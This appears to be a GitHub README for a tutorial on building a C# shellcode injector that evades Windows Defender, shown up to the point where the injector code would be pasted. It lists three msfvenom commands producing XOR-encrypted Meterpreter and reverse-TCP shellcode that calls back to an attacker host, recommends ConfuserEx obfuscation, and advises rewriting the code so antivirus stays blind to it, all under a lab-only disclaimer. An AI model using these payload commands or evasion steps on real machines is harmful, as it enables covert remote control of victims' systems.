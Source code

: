 ## Reverse Shell Creation & AV Evasion  

> ## ⚠️ Warning  
> **For authorized lab use only.**  
> Running these techniques on systems you do **not** own or without permission is illegal.  
> *This repository is provided “as is”, without warranty of any kind. The author assumes no liability for any misuse. By using any part of this code you agree to comply with all applicable laws and gain explicit permission before running it against a system.*

> [!Note]
> The C# injector Working Undetected From Windows Defender
>
> <kbd>Last Checked: 19.Mai.2025</kbd>
> 
> **`The C# injector Code is Public Here So i Expect it to be patched soon by someone posting this on virustotal and giving the string away so i recommend reconstructing the C# code to your own.`**

### Prerequisites
- **Visual Studio 2022** (with .NET Framework support)
- **ConfuserEx** (download [here](https://github.com/yck1509/ConfuserEx/releases/tag/v1.0.0))
- **Kali Linux** (for `msfvenom` payload generation)
- Basic knowledge of C# and command-line tools.

### `Generate XOR‑encrypted shell‑code/Payload`
   ```bash
   Choose which line you want to create the payload you can test all 3:
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=443 EXITFUNC=thread --encrypt xor --encrypt-key j
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key j
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=443 EXITFUNC=thread -f csharp
   ```
> <img src="https://github.com/user-attachments/assets/05c31f8d-447a-44f0-b215-cd39313ee679" width="900" />

### You Will Get something like this copy everything even the `Byte[]` text:
> <img src="https://github.com/user-attachments/assets/5b21cfac-bbed-4011-8ff0-ceeacdbd42ab" width="400" />



### `Open C# Visual studio 2022`
> <img src="https://github.com/user-attachments/assets/d08375a7-da87-4378-b697-b0ed2e0d0bf6" width="600" />

### `Choose Console App (.NET Framework)` And create Project
> <img src="https://github.com/user-attachments/assets/6172b649-4d36-4a4e-b622-f2d430b1ef4a" width="600" />

### Paste This injector Code & edit the `namespace inject` to ur own namespace name
